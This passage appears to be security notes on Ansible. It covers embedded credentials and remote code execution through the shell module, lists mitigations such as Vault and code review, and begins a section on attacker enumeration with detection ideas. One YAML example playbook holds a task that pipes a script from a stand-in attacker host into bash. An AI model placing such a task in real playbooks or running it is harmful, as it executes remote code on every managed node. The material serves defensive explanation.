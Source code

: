 #### **B. Credential Exposure**:
- **Embedded Secrets**: Storing plaintext passwords, API keys, or other credentials directly in playbooks or inventory files can expose sensitive information. An attacker with access to these files could reuse credentials for unauthorized access.

#### **C. Remote Code Execution (RCE)**:
- **Insecure Modules**: Some modules, like `shell` or `command`, allow execution of arbitrary commands. If an attacker can modify playbooks or ad-hoc commands, they can inject malicious code that runs on all managed nodes.
  
**Example of Exploit in a Playbook**:
If an attacker gains access to a playbook that uses the `shell` module, they could modify it to include malicious commands.

```yaml
- name: Exploit Playbook
  hosts: all
  tasks:
    - name: Execute Malicious Command
      shell: |
        curl http://attacker.com/malicious.sh | bash
```

### **Mitigation Strategies**:
- **Use Ansible Vault**: Encrypt sensitive information in playbooks and inventory files using Ansible Vault.
- **Restrict Permissions**: Limit who can edit playbooks and what commands can be run, especially when using `become: true`.
- **Code Reviews**: Regularly review playbooks for security issues, especially when using modules that execute commands.
- **Logging and Monitoring**: Keep logs of all Ansible operations and monitor for unusual activity.

By understanding these concepts, you can both leverage Ansible's automation power and ensure that playbooks are secure from exploitation.


An attacker with access to Ansible playbooks could leverage them to control, enumerate, or exploit node machines in various ways. Understanding these methods and how to detect them can help you implement SIEM rules to catch such activities. Here's how attackers might use playbooks for malicious purposes, along with suggestions for SIEM rules to detect these actions:

### 1. **Enumerating System Information**
   - **System Inventory Collection:**
     An attacker could create a playbook to gather detailed system information across all nodes, such as installed software, running services, hardware details, etc.

     **Example Playbook:**
     ```yaml
     ---
     - name: Gather system information
       hosts: all
       tasks:
         - name: Gather basic system facts
           setup:
